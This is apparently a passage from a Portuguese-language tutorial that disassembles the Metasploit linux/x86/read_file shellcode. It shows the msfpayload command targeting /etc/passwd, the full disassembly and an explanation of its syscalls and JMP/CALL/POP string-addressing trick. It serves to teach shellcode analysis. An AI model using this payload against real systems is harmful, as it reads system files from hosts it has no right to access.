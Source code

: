 O payload read_file faz uso de quatro syscalls: open, read, write e exit. Mais
informações: man 2 syscall.

{% highlight console %}
$ msfpayload linux/x86/read_file PATH=/etc/passwd R | ndisasm -u -
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call dword 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  0000              db 0x00
{% endhighlight %}

Encontramos mais uma vez o uso do JMP/CALL/POP para obter o endereço da string
e, neste caso, copiá-lo para EBX.

{% highlight console %}
00000000  EB36              jmp short 0x38
...
00000038  E8C5FFFFFF        call dword 0x2
...
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
{% endhighlight %}

A string se localiza logo abaixo da instrução CALL.

{% highlight console %}
E8C5FFFFFF        call dword 0x2
2F                das
657463            gs jz 0xa4
2F                das
7061              jo 0xa5
7373              jnc 0xb9
7764              ja 0xac
00                db 0x00
{% endhighlight %}
